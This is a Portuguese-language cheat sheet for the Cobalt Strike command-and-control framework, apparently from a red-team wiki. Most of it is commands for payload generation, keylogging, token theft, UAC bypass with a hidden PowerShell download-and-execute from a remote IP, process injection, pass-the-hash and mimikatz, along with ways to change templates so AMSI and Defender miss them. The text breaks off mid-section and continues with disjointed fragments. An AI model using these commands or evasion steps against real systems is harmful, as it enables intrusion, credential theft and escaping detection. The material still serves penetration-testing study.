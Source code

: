 # Cobalt Strike

### Listeners

### Ouvintes C2

`Cobalt Strike -> Listeners -> Add/Edit` e você pode selecionar onde ouvir, qual tipo de beacon usar (http, dns, smb...) e mais.

### Ouvintes Peer2Peer

Os beacons desses ouvintes não precisam se comunicar diretamente com o C2, eles podem se comunicar com ele por meio de outros beacons.

`Cobalt Strike -> Listeners -> Add/Edit` e você precisa selecionar os beacons TCP ou SMB

* O **beacon TCP definirá um ouvinte na porta selecionada**. Para se conectar a um beacon TCP, use o comando `connect <ip> <port>` de outro beacon
* O **beacon smb ouvirá em um nome de pipe com o nome selecionado**. Para se conectar a um beacon SMB, você precisa usar o comando `link [target] [pipe]`.

### Gerar e hospedar payloads

#### Gerar payloads em arquivos

`Attacks -> Packages ->`&#x20;

* **`HTMLApplication`** para arquivos HTA
* **`MS Office Macro`** para um documento do Office com uma macro
* **`Windows Executable`** para um .exe, .dll ou serviço .exe
* **`Windows Executable (S)`** para um **stageless** .exe, .dll ou serviço .exe (melhor stageless do que staged, menos IoCs)

#### Gerar e hospedar payloads

`Attacks -> Web Drive-by -> Scripted Web Delivery (S)` Isso gerará um script/executável para baixar o beacon do cobalt strike em formatos como: bitsadmin, exe, powershell e python

#### Hospedar payloads

Se você já tem o arquivo que deseja hospedar em um servidor web, basta ir para `Attacks -> Web Drive-by -> Host File` e selecionar o arquivo para hospedar e a configuração do servidor web.

### Opções do Beacon

<pre class="language-bash"><code class="lang-bash"># Executar binário .NET local
execute-assembly &#x3C;/path/to/executable.exe>

# Capturas de tela
printscreen    # Tirar uma única captura de tela via método PrintScr
screenshot     # Tirar uma única captura de tela
screenwatch    # Tirar capturas de tela periódicas da área de trabalho
## Vá para View -> Screenshots para vê-las

# keylogger
keylogger [pid] [x86|x64]
## View > Keystrokes para ver as teclas pressionadas

# portscan
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # Injetar ação de portscan dentro de outro processo
portscan [targets] [ports] [arp|icmp|none] [max connections]

# Powershell
# Importar módulo Powershell
powershell-import C:\path\to\PowerView.ps1
powershell &#x3C;apenas escreva o comando powershell aqui>

# Impersonação de usuário
## Geração de token com credenciais
make_token [DOMAIN\user] [password] #Criar token para se passar por um usuário na rede
ls \\computer_name\c$ # Tente usar o token gerado para acessar C$ em um computador
rev2self # Pare de usar o token gerado com make_token
## O uso de make_token gera o evento 4624: Uma conta foi conectada com êxito. Este evento é muito comum em um domínio do Windows, mas pode ser reduzido filtrando o tipo de logon. Como mencionado acima, ele usa LOGON32_LOGON_NEW_CREDENTIALS que é o tipo 9.

# UAC Bypass
elevate svc-exe &#x3C;listener>
elevate uac-token-duplication &#x3C;listener>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"

## Roubar token de pid
## Como make_token, mas roubando o token de um processo
steal_token [pid] # Além disso, isso é útil para ações de rede, não ações locais
## A partir da documentação da API, sabemos que esse tipo de logon "permite que o chamador clone seu token atual". É por isso que a saída do Beacon diz Impersonated &#x3C;current_username> - está se passando pelo nosso próprio token clonado.
ls \\computer_name\c$ # Tente usar o token gerado para acessar C$ em um computador
rev2self # Pare de usar o token de steal_token

## Iniciar processo com novas credenciais
spawnas [domain\username] [password] [listener] #Faça isso a partir de um diretório com acesso de leitura como: cd C:\
## Como make_token, isso gerará o evento do Windows 4624: Uma conta foi conectada com êxito, mas com um tipo de logon de 2 (LOGON32_LOGON_INTERACTIVE). Ele detalhará o usuário chamador (TargetUserName) e o usuário se passando (TargetOutboundUserName).

## Injetar em processo
inject [pid] [x64|x86] [listener]
## Do ponto de vista do OpSec: Não execute injeção entre plataformas, a menos que realmente precise (por exemplo, x86 -> x64 ou x64 -> x86).

## Passar o hash
## Este processo de modificação requer a correção da memória LSASS, que é uma ação de alto risco, requer privilégios de administrador local e não é muito viável se o Protected Process Light (PPL) estiver habilitado.
pth [pid] [arch] [DOMAIN\user] [NTLM hash]
pth [DOMAIN\user] [NTLM hash]

## Passar o hash através do mimikatz
mimikatz sekurlsa::pth /user:&#x3C;username> /domain:&#x3C;DOMAIN> /ntlm:&#x3C;NTLM HASH> /run:"powershell -w hidden"
## Sem /run, mimikatz gera um cmd.exe,
```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```
Não se esqueça de carregar o script agressivo `dist-pipe\artifact.cna` para indicar ao Cobalt Strike para usar os recursos do disco que queremos e não os carregados.

### Kit de Recursos

A pasta ResourceKit contém os modelos para os payloads baseados em script do Cobalt Strike, incluindo PowerShell, VBA e HTA.

Usando o [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) com os modelos, você pode descobrir o que o defensor (AMSI neste caso) não está gostando e modificá-lo:
```
.\ThreatCheck.exe -e AMSI -f .\cobaltstrike\ResourceKit\template.x64.ps1
```
Modificar as linhas detectadas pode gerar um modelo que não será detectado.

Não se esqueça de carregar o script agressivo `ResourceKit\resources.cna` para indicar ao Cobalt Strike para usar os recursos do disco que queremos e não os carregados.
```bash
cd C:\Tools\neo4j\bin
neo4j.bat console
http://localhost:7474/ --> Change password
execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -d DOMAIN.LOCAL



# Change powershell
C:\Tools\cobaltstrike\ResourceKit
template.x64.ps1
# Change $var_code -> $polop
# $x --> $ar
cobalt strike --> script manager --> Load --> Cargar C:\Tools\cobaltstrike\ResourceKit\resources.cna

#artifact kit
cd  C:\Tools\cobaltstrike\ArtifactKit
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .


```


